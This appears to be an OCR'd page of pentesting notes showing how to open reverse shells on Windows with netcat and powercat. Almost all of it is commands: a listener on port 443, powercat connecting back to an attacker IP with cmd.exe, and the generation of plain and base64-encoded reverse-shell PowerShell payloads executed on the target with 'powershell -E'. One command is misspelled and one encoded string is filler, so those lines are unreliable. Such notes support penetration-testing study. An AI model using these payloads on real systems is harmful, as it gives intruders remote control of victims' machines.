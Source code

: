 ```
sudo nc -lvp 443
```

Connect to your host:

```
powercat -c <YOUR_IP> -p 443 -e cmd.exe
```

Set up a listener:

```
nc -lnvp 443
```

Generate a payload:

```
powercat -c IP -p PORT -e cmd.exe -g > reverse_shell.ps1
```

Generate an encoded payload instead with:

```
powercat -c IP -p PORT -e cmd.exe -ge > encoded_rev_shell.ps1
```

Copy to the `encoded_rev_shell.ps1`  contents to the clipboard, paste it in the target, and execute it with:

```
powershell.exe -E asjdfasdfsdfaf
```

Hit Enter again to execute the encoded command.

We can create a stand-alone payload by adding the -g option to our command:

```
powercat -c <YOUR_IP> -p 443 -e cmd.exe -g > reverse_shell.ps1
```

Then execute the script/payload:

```
./reverse_shell.ps1
```

Alternatively, you can generate a payload using base64 encoding using the -ge option:

```
powercat -c <YOUR_IP> -p 443 -e cmd.exe -ge > base64_reverse_shell.ps1
```

Now read the file with any of these commands:

```
type base64_reverse_shell.ps1
cat base64_reverse_shell.ps1
```

We can use the PowerShell -E (EncodedCommand) option and pass the encoded string:

```
poweshell.exe -E <base64_encoded_string>
```
